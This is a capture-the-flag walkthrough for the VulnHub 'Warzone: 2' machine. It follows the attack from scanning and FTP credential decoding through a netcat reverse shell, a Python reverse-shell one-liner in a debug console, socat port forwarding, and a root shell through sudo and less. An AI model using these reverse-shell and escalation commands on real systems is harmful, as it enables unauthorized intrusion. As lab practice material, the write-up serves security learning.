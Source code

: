 # Warzone: 2

[Machine](https://www.vulnhub.com/entry/warzone-2,598/ "https://www.vulnhub.com/entry/warzone-2,598/")

## Reconnaissance

### nmap

#### Ports scanning:
```
nmap -sS -T4 -p- 192.168.88.224 -oA ports
```
#### Services scanning:
```
nmap -sV -O -p21,22,1337 192.168.88.224 -oA services
```
### ftp

Anonymous login is allowed.

![ftp](screenshots/ftp.png)

From there we have three pictures.

username:

![username](ftp/username.PNG)

password:

![password](ftp/password.PNG)

token:

![token](ftp/token.PNG)

I searched for cipher on the username and password pictures. And I got [a flag semaphore](https://en.wikipedia.org/wiki/Flag_semaphore "https://en.wikipedia.org/wiki/Flag_semaphore").

Decode the symbols from pictures and get a username and a password in `creds/`. I wrote it in upper case as wiki says.

### port 1337

1337 port seems to be a custom application.

I tried to take a banner:

![1337 conn](screenshots/1337_banner.png)

## Threat modeling

I think that it is enough to gather. Now we have the creds and have the 1337 port with login. I believe we easily will get remote access and that's all. 

By the way, need to write a script to create the token!

## Vulnerability analysis

### vsftpd

Not vulnerable.

### ssh

Not vulnerable.

### Misconfiguration of ftp

The main vulnerability is this. But I don't know about backend of 1337 port. Maybe here we can also have binary vulnerabilities.

## Exploitation

### Token

[Script to create a token](token.py)

Successfully got access with 'lower' credentials.

![access](screenshots/1337_access.png)

But we don't have a shell yet.

### Shell

Get shell is easy:

Local:
```
nc -lnvp 4444
```
Target:
```
nc 192.168.88.225 4444 -c /bin/sh
```
So, after the target connected to us, it will open a shell.

![shell](screenshots/shell.png)

```
python -c 'import pty;pty.spawn("/bin/bash")'
```
User - `www-data`.

### ssh flagman

In flagman home directory:

![warzone](screenshots/warzone.png)

Now we have a good shell and ssh access.

## Post exploitation

`sudo -l` will show you admiral wrz2-app.py execute permission which is similar to the server from the previous machine Warzone 1
```
sudo -u admiral /usr/bin/python3 /home/admiral/warzone2-app/wrz2-app.py
```
Then you will see the PIN to console on a web server. It was not available on the previous server because you can see it only on the server-side.
Also, the app shows you that it is running on 127.0.0.1:5000 which is a local service.

### Port forwarding

I used socat as flagman:
```
socat TCP-LISTEN:8080, fork TCP:127.0.0.1:5000
```

Then go to attack-machine:8080 and you will get the available service.

### /console

In console, we can execute whatevere we want with python. So execute a reverse shell with open nc server:
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.88.225",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
Got admiral.

### root

`sudo -l will` show you that you can execute less and see the content of warzone-rules.txt

with GTFOBins you can easily get a root:
```
sudo -u root /usr/bin/less /var/public/warzone-rules.txt
!/bin/sh
```

## Sources

### Flag semaphore

[wiki](https://en.wikipedia.org/wiki/Flag_semaphore "https://en.wikipedia.org/wiki/Flag_semaphore")

### Port forwarding with socat

[port forwarding](https://stackoverflow.com/questions/34791674/socat-port-forwarding-for-https "https://stackoverflow.com/questions/34791674/socat-port-forwarding-for-https")

### GTFOBins

[shell with less binary](https://gtfobins.github.io/gtfobins/less/#shell "https://gtfobins.github.io/gtfobins/less/#shell")
